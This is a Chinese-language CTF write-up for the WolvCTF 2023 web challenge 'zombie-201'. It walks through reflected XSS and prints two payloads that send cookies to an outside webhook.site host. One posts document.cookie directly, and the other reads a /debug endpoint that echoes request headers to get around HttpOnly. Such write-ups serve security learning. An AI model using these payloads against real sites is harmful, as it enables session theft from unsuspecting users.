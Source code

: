 # WolvCTF(2023)-zombie-201 writeup

访问题目地址:

![web-3.1](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-3.1.png)

有两个输入框，先看下前端代码,只有两个接口信息：
![web-3.2](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-3.2.png)

貌似没啥东西，第一个输入框要求输入一个zombie节目，第二个是输入一个zombie节目url。

第一个框随便输入内容之后，回显内容如下，输入内容嵌入到页面里面了

![web-3.3](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-3.3.png)

试试xss注入,很好，没有过滤：

<script>alert(1)</script>

请求地址：`http://49.232.142.230:11589/zombie?show=%3Cscript%3Ealert%281%29%3C%2Fscript%3E`

![web-3.8](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-3.8.png)

第二个框是输入一个url,随便输入之后，回显内容要求输入的url中host头要和题目地址一样，emm

![web-3.9](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-3.9.png)

试下101中的payload:

```
<script>fetch('https://webhook.site/409eebb6-3c36-4da2-915b-1d2c3ea3426c',{method:'POST',body:document.cookie})</script>
```

![web-4.1](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-4.1.png)

额。。没有回传cookie，推测应该是开启了httponly直接拦截了含有xss回弹cookie的请求，扫下接口看下，有个/debug接口：

![web-4.2](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-4.2.png)

访问下这个接口：

![web-4.3](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-4.3.png)

直接显示了请求头的信息，这里其实可以进行请求头xss注入。。。但是这个系列的题目中flag都在cookie中，可以利用这个页面，直接读取页面中的cookie信息回弹webhook.

```
<script>
fetch("http://49.232.142.230:11915/debug")
  .then(r => r.text())
  .then(t => fetch("https://webhook.site/409eebb6-3c36-4da2-915b-1d2c3ea3426c?c="+t));
</script>
```

![web-4.5](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-4.5.png)

cookie 信息回弹：

![web-4.4](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-4.4.png)
